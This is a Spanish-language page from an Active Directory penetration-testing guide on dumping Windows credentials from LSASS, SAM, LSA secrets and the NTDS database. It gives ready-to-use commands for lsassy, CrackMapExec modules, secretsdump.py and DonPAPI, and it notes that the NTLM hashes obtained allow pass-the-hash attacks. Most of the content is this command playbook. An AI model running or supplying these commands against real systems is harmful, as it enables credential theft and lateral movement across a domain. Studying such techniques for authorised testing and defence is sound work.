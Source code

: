 # LSASS

Las credenciales que se almacenan en este proceso habitualmente son aquellas que tienen una sesion actualmente en el equipo. Se obtientienen en formato NTLM, por lo que es posible usar el NT para hacer Pass-th-hash.

```Bash
# Lsassy
lsassy -v -u <user> -p '<pass>' -m rdrleakdiag --dump-name test.log <Target IP>
# o
cme smb <Target IP> -u <user> -p '<pass>' -M lsassy
# Procdump
cme smb <Target IP> -u <user> -p '<pass>' -M procdump
# Handlekatz
cme smb <Target IP> -u <user> -p '<pass>' -M handlekatz
# Nanodump
cme smb <Target IP> -u <user> -p '<pass>' -M nanodump
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img1.png?raw=true "lsassy 1")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img2.png?raw=true "lsassy 2")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img3.png?raw=true "Procdump")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img4.png?raw=true "Handlekatz")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img5.png?raw=true "Nanodump")


# SAM

Las credenciales que se almacenan en este componente son las locales del sistema. Se obtientienen en formato NTLM, por lo que es posible usar el NT para hacer Pass-th-hash.

```Bash
# Crackmapexec
cme smb <Target IP> -u <user> -p '<pass>' --sam
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img6.png?raw=true "SAM")

# LSA

Las credenciales que se almacenan en este componente son aquellas que se encuentran en cache. Por lo general cifradas, pero alguna vez en claro.

```Bash
# Crackmapexec
cme smb <Target IP> -u <user> -p '<pass>' --lsa
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img7.png?raw=true "LSA")

# NTDS

Esta BBDD del AD solo se encuentra en los DC y es donde se almacenan todas las credenciales del dominio. Se obtientienen en formato NTLM, por lo que es posible usar el NT para hacer Pass-th-hash.

```Bash
# Crackmapexec
cme smb <Target IP> -u <user> -p '<pass>' --ntds
# o
cme smb <Target IP> -u <user> -p '<pass>' -M ntdsutil
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img8.png?raw=true "NTDS")


# MULTIPLES CREDS

```Bash
# Secretsdump - SAM/LSA/NTDS
secretsdump.py <Dominio>/<user>:'<pass>'@<Target IP>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img9.png?raw=true "Secretsdump")

```Bash
# DonPAPI - Windows creds/Vaults/RDP/certificates/AdConnect/Internet explorer/Chrome/Firefox/VNC/mRemoteNG passwords
DonPAPI <Dominio>/<user>:'<pass>'@<Target IP>
# Es posible sacar un reporte en html ejecutando el comando donde se encuentre la BBDD
DonPAPI -R
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/get_windows_creds/files/img10.png?raw=true "DoPAPI")